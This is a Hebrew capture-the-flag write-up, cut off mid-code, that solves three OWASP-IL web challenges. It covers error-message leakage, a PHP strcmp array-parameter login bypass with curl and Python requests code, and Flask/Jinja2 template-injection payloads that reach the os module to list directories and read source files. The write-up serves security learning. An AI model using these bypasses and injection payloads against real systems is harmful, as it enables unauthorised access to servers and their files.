<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>נשתמש באחת השיטות
כדי לקרוא את </span><span lang=EN-US dir=LTR>flag.txt</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span> ונקבל:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><b><span lang=EN-US dir=LTR>OWASP-IL{Im4g3Tr4g1ck}</span></b></p>
<b><span lang=EN-US style='font-size:11.0pt;line-height:107%;font-family:"Calibri",sans-serif'><br
clear=all style='page-break-before:always'>
</span></b>
<p class=MsoNormal><b><span lang=EN-US>&nbsp;</span></b></p>
<h2 dir=RTL style='text-align:right;direction:rtl;unicode-bidi:embed'><span
lang=HE style='font-family:"Times New Roman",serif'>אתגר 9 </span><span
lang=HE style='font-family:"Arial",sans-serif'>–</span><span lang=HE
style='font-family:"Times New Roman",serif'> </span><span lang=EN-US dir=LTR>TheBug</span><span
dir=RTL></span><span lang=HE style='font-family:"Times New Roman",serif'><span
dir=RTL></span> (רמת קושי בינונית, 350 נקודות)</span></h2>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הוראות האתגר:</span></p>
<p><span lang=en-IL>I have a bug in my app that will give away the flag,<br>
I hope you won't find it :\<br>
What you are waiting for go away and find it...</span></p>
<p><span lang=en-IL>URL: <span class=MsoHyperlink><b><a
href="http://challenges.owaspil.ctf.today:8083/">http://challenges.owaspil.ctf.today:8083/</a></b></span></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>פתרון:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>האתר מציג מחשבון
שמאפשר לבצע פעולות חשבוניות בסיסיות:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הפעולות מתורגמות
לבקשות </span><span lang=en-IL dir=LTR>GET</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span>, למשל עבור
7+2:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span class=MsoHyperlink><span lang=en-IL><a
href="http://challenges.owaspil.ctf.today:8083/?calc=7%2B2"><span dir=LTR>http://challenges.owaspil.ctf.today:8083/?calc=7%2B2</span></a></span></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>אם ננסה לשחק עם
הפרמטרים, נקבל את התוצאה הבאה:</span></p>
<div align=right>
<table class=MsoTableGrid dir=ltr border=0 cellspacing=0 cellpadding=0 width="100%"
 style='border-collapse:collapse;border:none; margin: 0 auto; width:100%;'>
 <tr>
  <td width=301 valign=top style='width:225.4pt;border:solid windowtext 1.0pt;
  border-right:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal dir=RTL style='margin-bottom:0cm;margin-bottom:.0001pt;
  text-align:right;line-height:normal;direction:rtl;unicode-bidi:embed'><span
  lang=EN-US dir=LTR>http://challenges.owaspil.ctf.today:8083/?calc=test</span></p>
  </td>
  <td width=301 valign=top style='width:225.4pt;border:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal dir=LTR style='margin-bottom:0cm;margin-bottom:.0001pt;
  line-height:normal'><span lang=EN-US>Unrecognized variable: 'test</span><span
  dir=RTL></span><span lang=HE dir=RTL style='font-family:"Arial",sans-serif'><span
  dir=RTL></span>'</span></p>
  </td>
 </tr>
 <tr>
  <td width=301 valign=top style='width:225.4pt;border-top:none;border-left:
  solid windowtext 1.0pt;border-bottom:solid windowtext 1.0pt;border-right:
  none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal dir=LTR style='margin-bottom:0cm;margin-bottom:.0001pt;
  line-height:normal'><span lang=EN-US>http://challenges.owaspil.ctf.today:8083/?calc</span><span
  dir=RTL></span><span lang=HE dir=RTL style='font-family:"Arial",sans-serif'><span
  dir=RTL></span>=</span></p>
  </td>
  <td width=301 valign=top style='width:225.4pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal dir=LTR style='margin-bottom:0cm;margin-bottom:.0001pt;
  line-height:normal'><span lang=EN-US>Unexpected end found</span></p>
  </td>
 </tr>
 <tr>
  <td width=301 valign=top style='width:225.4pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal dir=LTR style='margin-bottom:0cm;margin-bottom:.0001pt;
  line-height:normal'><span lang=EN-US>Unexpected character found: '1' at index
  2</span></p>
  </td>
  <td width=301 valign=top style='width:225.4pt;border-top:none;border-left:
  solid windowtext 1.0pt;border-bottom:solid windowtext 1.0pt;border-right:
  none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal dir=LTR style='margin-bottom:0cm;margin-bottom:.0001pt;
  line-height:normal'><span lang=EN-US>http://challenges.owaspil.ctf.today:8083/?calc=1+1</span></p>
  </td>
 </tr>
</table>
</div>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=EN-US dir=LTR>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>חיפוש בגוגל של
השגיאות הללו מגלה את </span><span class=MsoHyperlink><span lang=EN-US><a
href="https://stackoverflow.com/questions/41079379/evaluate-a-model-entered-by-user-as-python-function"><span
lang=HE style='font-family:"Arial",sans-serif'>הדף הזה</span></a></span></span><span
lang=HE style='font-family:"Arial",sans-serif'>, שבו אפשר למצוא משהו שנראה כמו
קוד המקור של הספרייה המשמשת לביצוע הפעולות החשבוניות.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>ממעבר זריז על הקוד,
קפצה לי לעין הפקודה הבאה (בעיקר בגלל ההדפסה):</span></p>

```python
raise Exception("Division by 0 kills baby whales (occured at index " +
                        str(div_index) + ")")
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>זה נשמע כמו משהו
שכדאי לנסות.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>ואכן, התוצאה לא
אכזבה (בתקווה שאף בעל חיים לא נפגע במהלך הניסוי): </span></p>
<p class=MsoNormal dir=RTL  align=center style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הפעם, אם ננסה
להקליק על הסמל של ה-</span><span lang=EN-US dir=LTR>Console</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> על מנת להריץ קוד, נקבל את ההודעה הבאה:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>למזלנו, זה לא מפריע
כי הדגל נמצא ב-</span><span lang=EN-US dir=LTR>stack trace</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span>:</span></p>
<p class=MsoNormal dir=RTL  align=center style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הדגל:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><b><span lang=EN-US dir=LTR>OWASP-IL{L3ts_M4k3_Err0rs_Gr34t_Again}</span></b></p>
<b><span lang=EN-US style='font-size:11.0pt;line-height:107%;font-family:"Calibri",sans-serif'><br
clear=all style='page-break-before:always'>
</span></b>
<p class=MsoNormal><b><span lang=EN-US>&nbsp;</span></b></p>
<h2 dir=RTL style='text-align:right;direction:rtl;unicode-bidi:embed'><span
lang=HE style='font-family:"Times New Roman",serif'>אתגר 10 </span><span
lang=HE style='font-family:"Arial",sans-serif'>–</span><span lang=HE
style='font-family:"Times New Roman",serif'> </span><span lang=EN-US dir=LTR>TheCode</span><span
dir=RTL></span><span lang=HE style='font-family:"Times New Roman",serif'><span
dir=RTL></span> (רמת קושי בינונית, 400 נקודות)</span></h2>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הוראות האתגר:</span></p>
<p><span lang=en-IL>I can't believe I forgot the username and password!<br>
I have piece of the code maybe you can help me hack my own website?</span></p>
<p><span lang=en-IL>URL: <span class=MsoHyperlink><b><a
href="http://challenges.owaspil.ctf.today:8082/">http://challenges.owaspil.ctf.today:8082/</a></b></span></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>לאתגר צורף הקוד של </span><span
lang=EN-US dir=LTR>login.php</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span>.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>פתרון:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>החלק היחיד שמעניין
בקוד הוא הקטע הבא:</span></p>

```php
<?php
require_once('config.php');
 
function check_param($param) {
    return (isset($_POST[$param]) && !empty($_POST[$param]));
}
 
if (check_param('username') && strcmp($AUTH_USER, $_POST['username']) == 0 && check_param('md5') && strcmp($AUTH_MD5, $_POST['md5']) == 0) {
    $_SESSION['connected'] = 1;
    header('Location: /index.php');
    exit();
}
?>
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>במבט ראשון, אנחנו
צריכים לספק שם משתמש וסיסמא (האתר מחשב </span><span lang=EN-US dir=LTR>MD5</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> של הסיסמא בצד הלקוח וזה מה שנשלח בטופס הכניסה). קוד השרת משווה
את הקלט אל הערכים שהוגדרו מראש (הם שמורים ב-</span><span lang=EN-US dir=LTR>config.php</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> ואין לנו גישה אליהם), ורק אם הם שווים ניתן להתחבר לאתר.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>התיעוד של </span><span
lang=EN-US dir=LTR>PHP</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> תמיד היה דוגמא
לתיעוד מוצלח בעיני, הוא כולל המון דוגמאות קוד רשמיות, וכל דף מסתיים עם הערות
מועילות של גולשים על דברים שכדאי לשים לב אליהם, מקרי קצה, דוגמאות קוד נוספות
ושאר ירקות. </span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>מכיוון שלא היה לי
כיוון אחר, נכנסתי ל</span><span class=MsoHyperlink><span lang=EN-US><a
href="http://php.net/manual/en/function.strcmp.php"><span lang=HE
style='font-family:"Arial",sans-serif'>תיעוד של </span><span dir=LTR>strcmp</span></a></span></span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> ומצאתי את ההערה הבאה מועילה במיוחד:</span></p>

```
<?php
if (strcmp($_POST['password'], 'sekret') == 0) {
    echo "Welcome, authorized user!\n";
} else {
    echo "Go away, imposter.\n";
}
?>
$ curl -d password=sekret http://andersk.scripts.mit.edu/strcmp.php
Welcome, authorized user!
$ curl -d password=wrong http://andersk.scripts.mit.edu/strcmp.php
Go away, imposter.
$ curl -d password[]=wrong http://andersk.scripts.mit.edu/strcmp.php
Welcome, authorized user!
 
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>נראה מתאים.</span></p>

```python
import requests
r = requests.post('http://challenges.owaspil.ctf.today:8082/login.php', data = {"username[]": "a", "md5[]": "a"})
print (r.text)
```

<p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt'><span
lang=EN-US style='font-family:"Courier New"'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>והתוצאה:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><b><span lang=EN-US dir=LTR>OWASP-IL{PHP_1s_S0_B4d_Th4t_1t_Hurts}</span></b></p>
<b><span lang=EN-US style='font-size:11.0pt;line-height:107%;font-family:"Calibri",sans-serif'><br
clear=all style='page-break-before:always'>
</span></b>
<p class=MsoNormal><b><span lang=EN-US>&nbsp;</span></b></p>
<h2 dir=RTL style='text-align:right;direction:rtl;unicode-bidi:embed'><span
lang=HE style='font-family:"Times New Roman",serif'>אתגר 11 - </span><span
lang=EN-US dir=LTR>Recommendation Generator</span><span dir=RTL></span><span
lang=HE style='font-family:"Times New Roman",serif'><span dir=RTL></span> (רמת
קושי בינונית, 500 נקודות)</span></h2>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הוראות האתגר:</span></p>
<p><span lang=en-IL>Hi Guys, I need your help!<br>
Someone hacked my recommendation system and i can't found the security breach.<br>
Can you demonstrate the hacker's steps in order to take over the server and
send me the flag?</span></p>
<p><span lang=en-IL>URL: <span class=MsoHyperlink><b><a
href="http://challenges.owaspil.ctf.today:8087/">http://challenges.owaspil.ctf.today:8087/</a></b></span></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>פתרון:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>כניסה לאתר מציגה את
הדף הבא:</span></p>
<p class=MsoNormal dir=RTL  align=center style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הכנסה של פרטים
מייצרת המלצה אקראית:</span></p>
<p class=MsoNormal dir=RTL  align=center style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=EN-US dir=LTR>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=EN-US dir=LTR>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=EN-US dir=LTR>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הדבר הראשון ששמתי
לב אליו הוא שהאתר פגיע ל-</span><span lang=EN-US dir=LTR>XSS</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>:</span></p>
<p class=MsoNormal dir=RTL  align=center style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>אולם, הכיוון הזה לא
הוביל לשום מקום.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>המשכתי לחפש, ואחד מהדברים
שקפצו לי לעין היה השרת של האתר:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>חיפשתי </span><span
lang=EN-US dir=LTR>gunicorn </span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> ומצאתי ש-</span><span
lang=en-IL dir=LTR>The Gunicorn &quot;Green Unicorn&quot; is a Python Web
Server Gateway Interface HTTP server</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span>.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>אם כך, האתר כנראה
נכתב בפייתון, ורוב הסיכויים שהוא משתמש ב-</span><span lang=EN-US dir=LTR>Framework</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> הפופולרי </span><span lang=EN-US dir=LTR>Flask</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>מצאתי את ה</span><span
class=MsoHyperlink><span lang=EN-US><a
href="https://nvisium.com/resources/blog/2015/12/07/injecting-flask.html"><span
lang=HE style='font-family:"Arial",sans-serif'>דף הזה</span></a></span></span><span
lang=HE style='font-family:"Arial",sans-serif'> אודות הזרקת קוד ל-</span><span
lang=EN-US dir=LTR>Flask Templates</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span>, והתחלתי לנסות.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הטבלה הבאה מציגה את
הקלט והפלט של גישה לכתובת הבאה:</span></p>
<p class=MsoNormal><span lang=EN-US>http://challenges.owaspil.ctf.today:8087/get_recommendation?name=a&amp;recommender=<b>&lt;input&gt;</b></span></p>
<table class=MsoTableGrid border=0 cellspacing=0 cellpadding=0 width="100%"
 style='border-collapse:collapse;border:none;width:100%;' dir=ltr>
 <tr>
  <td width=236 valign=top style='width:176.95pt;border:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span dir=LTR></span><b><span lang=EN-US><span dir=LTR></span>&lt;input&gt;</span></b></p>
  </td>
  <td width=365 valign=top style='width:273.85pt;border:solid windowtext 1.0pt;
  border-left:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span dir=LTR></span><b><span lang=EN-US><span dir=LTR></span>&lt;output&gt;</span></b></p>
  </td>
 </tr>
 <tr>
  <td width=236 valign=top style='width:176.95pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>{{''.__class__}}</span></p>
  </td>
  <td width=365 valign=top style='width:273.85pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span dir=LTR></span><cite><span lang=en-IL style='font-family:"Calibri",sans-serif'><span
  dir=LTR></span>&lt;type 'str'&gt;</span></cite></p>
  </td>
 </tr>
 <tr>
  <td width=236 valign=top style='width:176.95pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>{{''.__class__.mro()}}</span></p>
  </td>
  <td width=365 valign=top style='width:273.85pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span dir=LTR></span><cite><span lang=en-IL style='font-family:"Calibri",sans-serif'><span
  dir=LTR></span>[&lt;type 'str'&gt;, &lt;type 'basestring'&gt;, &lt;type
  'object'&gt;]</span></cite></p>
  </td>
 </tr>
 <tr>
  <td width=236 valign=top style='width:176.95pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>{{''.__class__.mro()[2].__subclasses__()}}</span></p>
  </td>
  <td width=365 valign=top style='width:273.85pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><cite><span lang=en-IL style='font-family:"Calibri",sans-serif'>[&lt;type
  'type'&gt;, &lt;type 'weakref'&gt;, &lt;type 'weakcallableproxy'&gt;,
  &lt;type 'weakproxy'&gt;, &lt;type 'int'&gt;, </span></cite><cite><span
  lang=EN-US style='font-family:"Calibri",sans-serif'> …]</span></cite></p>
  </td>
 </tr>
 <tr>
  <td width=236 valign=top style='width:176.95pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>{{''.__class__.mro()[2].__subclasses__()[59]}}</span></p>
  </td>
  <td width=365 valign=top style='width:273.85pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><cite><span lang=en-IL style='font-family:"Calibri",sans-serif'>&lt;class
  'warnings.catch_warnings'&gt;</span></cite></p>
  </td>
 </tr>
 <tr>
  <td width=236 valign=top style='width:176.95pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><span lang=EN-US>{{''.__class__.mro()[2].__subclasses__()[59]<br>
  .__init__.func_globals['linecache'].__dict__['os']}}</span></p>
  </td>
  <td width=365 valign=top style='width:273.85pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt;line-height:
  normal'><cite><span lang=en-IL style='font-family:"Calibri",sans-serif'>&lt;module
  'os' from '/usr/local/lib/python2.7/os.pyc'&gt;</span></cite></p>
  </td>
 </tr>
</table>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>מפה אפשר להריץ כבר
פקודות של </span><span lang=EN-US dir=LTR>OS</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span>, למשל:</span></p>

```python
{{''.__class__.mro()[2].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['os'].listdir('.')}}
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>מציג:</span></p>

```
['templates', 'app.py', 'requirements.txt']
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>באופן דומה (עם נתיב
קצת שונה), הרצת:</span></p>

```python
{{''.__class__.mro()[2].__subclasses__()[59]()._module.__builtins__['open']('app.py').read()}}
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>תפלוט את התוכן של </span><span
lang=EN-US dir=LTR>app.py</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span>.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>מפה צריך פשוט למצוא
את הקובץ המתאים:</span></p>

```python
req = "{{"
req += "''"
req += ".__class__.mro()[2]"
req += ".__subclasses__()[59]"
req += ".__init__"
req += ".func_globals['linecache']"
req += ".__dict__['os']"
req += ".listdir('/')"
req += "}}"
 
r = requests.get("http://challenges.owaspil.ctf.today:8087/get_recommendation?name=a&recommender=" + req)
print (r.text)
 
#Output:
